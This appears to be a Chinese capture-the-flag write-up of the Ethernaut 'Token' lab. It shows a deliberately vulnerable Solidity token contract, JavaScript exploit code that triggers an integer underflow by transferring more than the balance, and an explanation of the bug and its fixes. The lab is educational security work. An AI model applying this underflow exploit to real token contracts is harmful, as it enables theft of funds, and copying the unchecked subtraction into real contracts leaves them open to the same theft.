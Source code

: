 ```yaml
---
title: Ethernaut - Token
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-21
---
```


攻击这个 Token 合约，给自己拿好多钱。

<!--more-->

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;
	
	// 初始的前全在创建者手里
    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

	// 转账函数
    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

初始情况，我有20个Token。

那就是，通过自己给自己转账，在我的前还没被扣掉之前，给自己转两次账？

我先试试。

```js
async function main() {
  const { provider, wallet, contract } = getConfig(CONTRACT_ADDRESS);

  let time = 100;
  while (time--) {
    contract.transfer(MY_WALLET, 1);
  }

  const ret = await contract.balanceOf(MY_WALLET);
  console.log(ret);
}
```

很显然，肯定攻击不成功，报错了 `could not coalesce error`，简而言之就是请求太频繁状态不匹配了。

而且也太天真了，因为一定是一个事务执行完，再执行下一个事务的。



然后！想到问题可能是类型转换的地方。

```
require(balances[msg.sender] - _value >= 0);
```

如果 value = 21，减一下就下溢到2^256 - 1了。

但是他连续 -21 再 +21，还是不变。



能不能在 -21 之后，执行另一个 -100000的命令？不可能的。

因为一定是一个事务执行完，再执行下一个事务的。



所以得把账转给别人！！

```js
const CONTRACT_ADDRESS = "0x967e954E30B4CD6E3618EcF88F8c02AA2431C363"; // 替换为你的合约地址
const MY_WALLET = "0xE484608fA7639996d0F359f76f34DF9fe15f7F7B";
async function main() {
  const { provider, wallet, contract } = getConfig(CONTRACT_ADDRESS);

  let tx = await contract.transfer(CONTRACT_ADDRESS, 21);
  await tx.wait();

  const ret = await contract.balanceOf(MY_WALLET);
  console.log(ret);
}

main();
```

成功了！

<img src="./06-Token/image-20241221235843734.png" alt="image-20241221235843734" style="zoom:50%;" />

# 总结

**整数下溢漏洞**

在 Solidity 中，未正确处理的整数操作（例如减法）可能会导致 **整数下溢（underflow）**。具体表现为，当一个无符号整数减去一个大于自身的值时，它会绕回到 uint256 的最大值。



**漏洞触发条件**

1. 合约未使用 SafeMath 或其他溢出检查机制。

2. 函数逻辑中对减法操作的结果没有进行合理检查。

3. 攻击者通过构造一个超出余额的转账请求（例如转账 21 块，但余额只有 20 块），触发下溢漏洞。



**智能合约事务的执行顺序**

1. **事务的执行是顺序的**：每个函数调用的状态更新（例如 balances[msg.sender] -= _value）会立即生效，不会被跳过或延迟。

2. **单一事务的原子性**：在同一个事务中，所有的状态变更要么全部完成，要么全部回滚。

3. **外部调用的顺序**：如果函数中没有外部调用（例如 call 或 delegatecall），合约状态的更新顺序是严格的，攻击者无法通过并行调用干扰其执行。



**如何修复**

1. 使用 SafeMath 或 Solidity >= 0.8.0 的内置溢出保护：

    ```
    balances[msg.sender] = balances[msg.sender].sub(_value); // SafeMath 方法
    ```

2. 明确检查操作条件：

    ```
    require(balances[msg.sender] >= _value, "Insufficient balance");
    ```

3. 避免直接使用不安全的算术操作。



